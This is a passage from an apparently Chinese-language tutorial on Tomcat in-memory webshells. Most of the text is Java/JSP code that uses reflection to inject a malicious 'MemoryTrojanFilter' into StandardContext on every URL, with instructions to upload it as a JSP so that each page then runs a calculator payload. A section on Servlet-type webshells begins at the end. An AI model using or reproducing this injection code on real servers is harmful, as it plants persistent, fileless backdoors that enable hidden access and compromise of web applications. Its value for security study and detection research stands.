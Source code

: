           MemoryTrojanFilter memoryTrojanFilter = new MemoryTrojanFilter();
          filterDef.setFilter(memoryTrojanFilter);
          filterDef.setFilterClass(String.valueOf(memoryTrojanFilter.getClass()));
          filterDef.setFilterName(memoryTrojanFilter.getClass().getName());
          // 2.1.2 往 filterDefs 里面插值
          standardContext.addFilterDef(filterDef);
          // 2.2.1 创建 filterMap
          FilterMap filterMap = new FilterMap();
          filterMap.setFilterName(memoryTrojanFilter.getClass().getName());
          filterMap.addURLPattern("/*");
          // 2.2.2 插入到 filterMaps
          standardContext.addFilterMap(filterMap);
          // 2.3.1 创建 ApplicationFilterConfig
          // 无法通过 new 直接创建，因为 ApplicationFilterConfig is not public in 'org.apache...'. Cannot be accessed from outside package
          // 因此只能通过反射来创建对象
          Class<ApplicationFilterConfig> applicationFilterConfigClass = ApplicationFilterConfig.class;
          ApplicationFilterConfig applicationFilterConfig = null;
          try {
              Constructor<ApplicationFilterConfig> applicationFilterConfigConstructor = applicationFilterConfigClass.getDeclaredConstructor(Context.class, FilterDef.class);
              applicationFilterConfigConstructor.setAccessible(true);
              applicationFilterConfig = applicationFilterConfigConstructor.newInstance(standardContext, filterDef);
          } catch (NoSuchMethodException e) {
              throw new RuntimeException(e);
          }
          // 2.3.2 把 applicationFilterConfig 放入到 filterConfigs 当中，standardContext 中没有直接放入的方法，还得通过反射拿到 filterConfigs
          try {
              Field filterConfigsField = standardContext.getClass().getDeclaredField("filterConfigs");
              filterConfigsField.setAccessible(true);
              HashMap<String, ApplicationFilterConfig> filterConfigs = (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(standardContext);
              // 2.3.3 把 applicationFilterConfig 放入到 filterConfigs 当中
              filterConfigs.put(memoryTrojanFilter.getClass().getName(), applicationFilterConfig);
          } catch (IllegalAccessException e) {
              throw new RuntimeException(e);
          }
      %>
      </body>
      </html>
      ```

      将该代码放进一个 jsp 并上传，然后访问。之后只要访问该站点的页面，就会喜提计算器。

## 3. Servlet 型内存马

1. 在开始 Context 型内存马之前，需要对 Filter 型内存马进行一个总结：
    1. `StandardContext` 并不提供 Filter 和 Servlet 的创建和插入：